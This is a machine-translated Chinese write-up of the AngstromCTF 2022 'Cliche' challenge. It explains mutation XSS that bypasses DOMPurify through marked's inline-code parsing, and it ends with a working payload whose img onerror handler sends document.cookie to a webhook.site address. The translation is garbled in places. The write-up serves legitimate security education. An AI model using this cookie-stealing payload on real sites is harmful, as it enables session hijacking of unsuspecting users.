

# 陈词滥调 ngstromCTF 2022

> 原文：<https://infosecwriteups.com/clique-writeup-%C3%A5ngstromctf-2022-e7ae871eaa0e?source=collection_archive---------1----------------------->

## DOMPurify 和 marked 中的突变 XSS

上周末，我和我的团队浮士德一起玩了 ngstromCTF 2022。在 CTF 期间，我遇到了一个相对简单但很聪明的网络挑战，我想和你们分享一下。这是陈词滥调。如果您只是来看解决方案的，请随意跳到最后一部分的结尾。

# 挑战

挑战文本承诺了最没意思的网络挑战，对此我必须表示反对。除了挑战的链接之外，还提供了一个管理机器人，它的 cookies 中有一个标志，并跟随一个给定的链接。

> 疲惫和荒凉，蛤蜊放弃了写作创意网页。相反，他把过度使用的挑战想法的轮子转了三次，得到了“pastebin”、“markdown”和“input sanitization”。瞧吧，[世界上最无趣的网络挑战](https://cliche.web.actf.co/)。



挑战页面由一个文本区域和一个按钮组成。

当我们打开挑战时，我们只看到一个添加内容的文本区域和一个查看内容的按钮。点击按钮重新加载网页，将 textarea 内容作为 URL 参数:`https://clicke.web.actf.co/?content=<u>foobar</u>`。然后，网页呈现内容。然而，任何明显的 XSS 都不会工作，所以我们接下来看一下源代码。

```
<script src="[https://cdn.jsdelivr.net/npm/dompurify@2.3.6/dist/purify.min.js](https://cdn.jsdelivr.net/npm/dompurify@2.3.6/dist/purify.min.js)"></script>
    <script src="[https://cdn.jsdelivr.net/npm/marked@4.0.14/lib/marked.umd.min.js](https://cdn.jsdelivr.net/npm/marked@4.0.14/lib/marked.umd.min.js)"></script>
...
<script>
 const qs = new URLSearchParams(location.search);
 if (qs.get(“content”)?.length > 0) {
 document.body.innerHTML = marked.parse(DOMPurify.sanitize(qs.get(“content”)));
 }
 </script>
```

代码揭示了为什么没有基本的 XSS 工作。因为挑战文本已经被破坏了，所以使用了 HTML 杀毒软件。在内容被添加到主体之前，页面首先用 [DOMPurify](https://github.com/cure53/DOMPurify) (版本 2.3.6)净化它，然后用标记为的 markdown 库[(版本 4.0.14)解析它。这两个模块都用于最新版本。](https://github.com/markedjs/marked)

由于我最近一直在研究奇怪的解析行为，很明显，挑战在于找到突变 XSS 有效载荷。

# 突变 XSS

什么是突变 XSS？mXSS 的概念在 Heider 等人的论文中有很好的解释。这基本上意味着各种解析器多次改变 XSS 有效载荷，从以前的良性内容变成恶意内容。为了说明这一点，请看下面的例子:

```
let init = '<form id="first"><div></form><form id="second">';
document.body.innerHTML = init;
let mutated_1 = document.body.innerHTML;
document.body.innerHTML = mutated;
let mutated_2 = document.body.innerHTML;console.log(init);
console.log(mutated_1);
console.log(mutated_2);// Output
<form id="first"><div></form><form id="second">
<form id="first"><div><form id="second"></form></div></form>
<form id="first"><div></div></form>
```

我们可以看到，通过将相同的字符串添加到 innerHTML 中，init HTML 字符串通过多次解析发生了变化。这很奇怪，不是吗，因为我们希望 HTML 保持它的形式。然而，这是由 [HTML 规范](https://html.spec.whatwg.org/multipage/parsing.html#serialising-html-fragments:the-script-element-4:~:text=DOM.-,For%20example%2C%20consider%20the%20following%20markup%3A,%3Cform)定义的行为。

如今，HTML 清理器或过滤器通常在浏览器呈现 HTML 输入之前先呈现它，以避免复杂的去模糊技术。然而，正如我们在上面看到的，HTML 内容并不总是保持不变，并且会随着多个解析过程而变化。事实上，这种奇怪的 HTML 边缘案例导致了各种各样的绕过，例如，在 DOMPurify [版本 2.0.0](https://research.securitum.com/dompurify-bypass-using-mxss/) 或[版本 2.0.17](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/) ，甚至在[谷歌搜索](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)中的 XSS。

# 解决办法

记住上一节，我们可以看到这个挑战有三个连续的解析器。首先，输入由 DOMPurify 解析，然后由 marked 解析，最后由浏览器通过 innerHTML 解析。这像 mXSS 一样臭。

在尝试了各种典型的 mXSS 技术(如表格、表单或样式元素)失败之后，我把注意力集中在了降价部分。我尝试了多种结合 HTML 内容的 markdown 元素，这些元素可能会触发 XSS。由于 DOMPurify 过滤了 HTML 中的所有恶意部分，我很清楚我必须找到一个破坏 HTML 的 markdown 元素，这样我就可以从隐藏在良性 HTML 部分中的内容中伪造一个恶意的有效载荷，例如，一个属性。这时我发现了 markdown 代码块(`)。

```
var inp ='`<p id="aaa`bbb">';
document.body.innerHTML = marked.parse(DOMPurify.sanitize(inp));
// Ouput
'<p><code>&lt;p id=&quot;aaa</code>bbb&quot;&gt;</p></p>\n'
```

如上所述，markdown 内联代码的优先级高于 HTML 元素，并且会破坏它。前半部分在代码块中结束；后半部分在外面。正是我需要的！

```
// Payload
`<p x="`"></p>// Output
<p><code>&lt;p id=&quot;</code>&quot;&gt;</p></p>
```

有效载荷对于 DOMPurify 来说看起来不错，因为 id 中的恶意部分不会造成损害。但是，然后，标记打破了属性，并把它的代码元素放在它周围。因此，图像元素在属性之外，并被解析为标准元素，从而触发警报。

我发送给机器人的最终有效载荷如下所示，并给了我一个标志:

```
[https://cliche.web.actf.co/?content=`%3Cp%20x=%22%3Cimg%20src=x%20onerror=fetch(window.location.hash.substring(1)%2Bdocument.cookie)%3Efoo%3C/img%3E%22%20title=%22hello`%22%3E%3Cimg%20src=x%3E%3C/p%3E#https://webhook.site/1b96a1e3-307b-4f46-9f3a-e3eba4cc538d?x=](https://cliche.web.actf.co/?content=`%3Cp%20x=%22`%3Cimg%20src=x%20onerror=fetch(window.location.hash.substring(1)%2Bdocument.cookie)%3E%22%3E%3C/p%3E#https://webhook.site/1b96a1e3-307b-4f46-9f3a-e3eba4cc538d?x=)// Output on webhook.site:
actf{my_code_is_upside_down_topsy_turvy_1029318}
```

# 结论

这一激动人心的挑战再次表明，即使最初的意图是好的，在代码中加入 bug 也是多么容易。有趣的是 [marked 甚至推荐](https://marked.js.org/#usage) DOMPurify 作为消毒剂。然而，正如我们所看到的，这只有在卫生是这个过程的最后一步的情况下才有效。

除了我的解决方案，我相信一定有更有趣的方法来解决这个挑战。我很想知道还有什么其他可行的解决方案。

[https://twitter.com/fh4ntke](https://twitter.com/fh4ntke)